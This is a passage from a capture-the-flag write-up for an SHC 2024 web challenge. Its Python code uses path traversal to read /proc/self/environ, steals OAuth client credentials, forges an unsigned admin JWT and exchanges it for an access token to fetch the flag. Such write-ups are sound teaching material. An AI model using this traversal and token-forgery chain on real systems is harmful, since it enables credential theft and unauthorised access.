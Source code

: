 At this point we are logged-in to the frontend app. Time to exfiltrate `CLIENT_ID` and
`CLIENT_SECRET` from the environment:

```python
r = s.get(FRONTEND_ENDPOINT+"/page?page=../../../proc/self/environ")
CLIENT_ID = re.search(r'CLIENT_ID=([^\x00]+)', r.text).group(1)
CLIENT_SECRET = re.search(r'CLIENT_SECRET=([^\x00]+)', r.text).group(1) 
```

(these are `frontend` and `ZMyjEAypRBXCTQMIiqTbT8M8GXiGrSd` respectively and they
don't change when restarting the SHC instance)

Create a forged `admin` token, with empty password and symmetric algorithm:

```python
subject_token = jwt.encode(
    { "name": "admin", "aud": CLIENT_ID },
    key="",
    headers={ "alg": "HS256", "kid": "blabla" }
)
```

Then, the rest is mostly copying code from `frontend.py`.:

```python
basic = requests.auth.HTTPBasicAuth(CLIENT_ID, CLIENT_SECRET)
r = requests.post(TOKEN_ENDPOINT+"/token", data={
    "grant_type": "urn:ietf:params:oauth:grant-type:token-exchange",
    "subject_token_type": "urn:ietf:params:oauth:token-type:jwt",
    "subject_token": subject_token
}, auth=basic, verify=False)
access_token = r.json().get("access_token")
r = requests.get(BACKEND_ENDPOINT+"/flag", params={"token": access_token}, verify=False)
print(r.text)
```

That prints the flag.

---

## `shc2024{get_unverified_header_is_really_unverified!}`




<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
